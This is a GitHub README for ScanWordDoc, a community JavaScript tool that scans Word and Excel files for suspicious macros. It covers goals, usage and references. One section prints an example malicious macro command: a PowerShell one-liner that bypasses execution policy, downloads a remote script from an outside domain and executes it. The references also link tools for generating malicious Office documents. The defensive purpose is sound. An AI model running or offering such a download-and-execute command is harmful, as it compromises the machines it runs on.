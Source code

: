 # ScanWordDoc
Look for malicious patterns in Word Docs. Intended to be used inline with email or standalone per file.

This is a community project at https://www.codeforatlanta.org/ 

## goals
1. Tackle common high value security issues in a way that is accessible to everyone.
2. Create a script that will scan a word doc and validate, it's valid, it works, if it has macros, if those macros look suspicious
3. Create methods / scripts to put it inline with various email systems for easy and free
4. Create a successful patternt that can be used for other similar security use cases.
5. DO NOT compromise the host that is scanning the file
6. Create the script in javascript for ease of portability

## getting started

```bash
> node scan.js ./tests/benign/nomacros.doc
> node scan.js ./tests/benign/hasmacros.doc
> node scan.js ./tests/malicious/hasmacros.doc
```

## Supported Files
1. Excel XLS
2. Word DOC

## Example Malicious MAcro / Command
```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Exec Bypass -NoP -NoExit -Command iex((New-Object System.Net.WebClient).DownloadString('http://qwdiqjwdwqu9daquwddd.com/REX/slick.php?utma=torzd'))
```

## References
- https://www.npmjs.com/package/cfb : currently the primary library supporting functions thanks Yaw Agyepong !
- https://github.com/curi0usJack/luckystrike
- https://github.com/enigma0x3/Generate-Macro
- https://github.com/joesecurity/pafishmacro
- https://github.com/strawp/poisonpen
- https://github.com/gpalazolo/olevba_analyzer
- https://github.com/teto2005/Generate-Macro-is-a-standalone-PowerShell-script-that-will-generate-a-malicious-Microsoft-Office-doc
- https://github.com/Heteroskedastic/corrupt-file-scanner
- https://developers.google.com/gmail/api/quickstart/nodejs

